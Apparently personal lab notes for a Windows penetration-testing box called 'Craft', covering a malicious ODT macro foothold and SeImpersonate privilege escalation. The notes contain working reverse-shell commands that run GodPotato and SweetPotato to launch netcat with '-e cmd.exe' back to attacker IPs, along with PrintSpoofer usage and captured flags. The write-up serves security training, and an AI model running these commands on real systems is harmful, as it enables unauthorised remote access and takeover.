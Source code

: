 # Craft \[Inter]

## Report

Website on port 80 accepts file upload for .odt files, null byte poisoning works but we can't get payload to execute and directory traversal is blocked. Uploading malicious micro running powershell in the assumption that the file we upload will be opened gets us a reberse shell. To lateral privesc to user 'apache' who has SeImpersonate, create reverse shell at web root.

GodPotato works but critical commands like whoami and ipconfig dont work really which ruins the whole point especially when submitting for proof, PrintSpoofer however does get the job done.&#x20;

## Enumeration

192.168.155.169

### Files

None

### Initial Foothold

Submit ODT file on port 80 and get revshell

{% embed url="https://0xdf.gitlab.io/2020/02/01/htb-re.html#prepare-document" %}

Upload reverse shell to web root to become user apache who has 'SeImpersonate'

## PrivEsc

Let’s check the .NET version now that we have SeImpersonatePrivilege.

```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
```

`.\GodPotato-NET4.exe -cmd "cmd /c C:\programdata\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.205 8001"`

`.\GodPotato-NET4.exe -cmd "cmd /c C:\programdata\nc64.exe 192.168.45.205 8001 -e C:\Windows\System32\cmd.exe"`

`.\PrintSpoofer.exe -i -c cmd`

GodPotato works but can't use certain commands, useless if you want proof, but actlly just spawn a netcat after getting the first GodPotato

.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"

SweetPotato is a combo of EfsRpc, PrintSpoofer (Default) and other

JuicyPotatoNG looks nice find an exe tho cba to brute CLID

## Loot

### Creds

None

### Flags

6dc34aa7d9817c784bf4522b93b14919

fc9788921d3b6157db48148fcf5ecb45

## Proof

Confirm Spooler service is running first befor using PrintSpoofer

```
PS C:\Users\jeanv> Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

<div align="left"><figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure></div>
